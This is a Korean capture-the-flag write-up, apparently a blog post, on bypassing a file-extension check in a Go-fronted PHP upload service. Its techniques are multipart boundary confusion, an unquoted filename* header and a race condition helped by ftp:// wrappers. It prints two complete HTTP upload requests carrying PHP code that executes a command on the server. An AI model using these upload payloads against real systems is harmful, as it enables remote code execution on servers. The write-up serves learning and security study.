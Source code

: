 대회가 끝나고 다른 사람들이 올린 페이로드를 보니 Null Byte Injection을 할 때, '\0'을 사용하는게 아닌 \x00을 사용해야 우회가 가능하다는 것을 보고 잘못된 지식을 갖고 있었음을 알게 되었다.             
          
추가적으로, @Ginoah 분께서 사용하신 `Multipart` 구조 내부에 새로운 Boundary를 만들어 확장자를 우회하는 방법을 알게 되었다.              
                
```php
POST /index.php HTTP/1.1
Host: 3.39.6.7:8000
Content-Length: 237
Content-Type: multipart/form-data; BOUNDARY=go; xboundary=php;
Cookie: PHPSESSID=[[SESSION]]
Connection: close

--go
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

--php
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: text/plain

<%=`/readflag`;?>
--php--
--go--
```   
`Multipart` 데이터의 `boundary`를 나눠 Go로 구현된 웹에서는 파일명이 test.txt로 인식되고, 
PHP 웹 서버로 요청을 보낼 때는 `php boundary` 내용이 전달되도록 하여 확장자를 우회시키는 것이었다.    
       
```php 
[Skip] 
-----------------------------28100023299015186381277434465
Content-Disposition: form-data; name="file"; filename=test.php; filename*=UTF-8''a
Content-Type: application/octet-stream

<?= system('/readflag'); ?>
-----------------------------28100023299015186381277434465--
```

출제자분의 의도된 문제 풀이 방향은 `filename`에 `quote`를 사용하지 않고 위와 같은 방식으로 우회하는 것이었다.     
      
> Warning: The string following filename should always be put into quotes; but, for compatibility reasons, many browsers try to parse unquoted names that contain spaces.          
        
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Disposition      
        
MDN 공식 문서에서 언급한 것과 유사하게 Quote로 파일 명을 제대로 묶어주지 않으면 
공백을 포함한 이름들까지 parse를 시도하려고 한다는 점을 활용하여 우회가 가능해진다.     
        
파일 확장자 우회는 두 방법을 통해 가능하기에 Race Condition을 발생시켜 문제를 해결할 수 있엇다.     
     
Race Condition의 확률을 높이기 위한 방법이 또 존재했는데 그것은 `ftp://` 프로토콜을 사용하는 것이었다.    
        
> As of PHP 5.0.0, this function can also be used with some URL wrappers. Refer to Supported Protocols and Wrappers to determine which wrappers support stat() family of functionality.     
              
문제에서 사용된 PHP 함수 중에 `file_exists()` 함수는 PHP 5.0.0 버전부터 다양한 Wrapper들을 사용할 수 있게 바뀌었다.     
     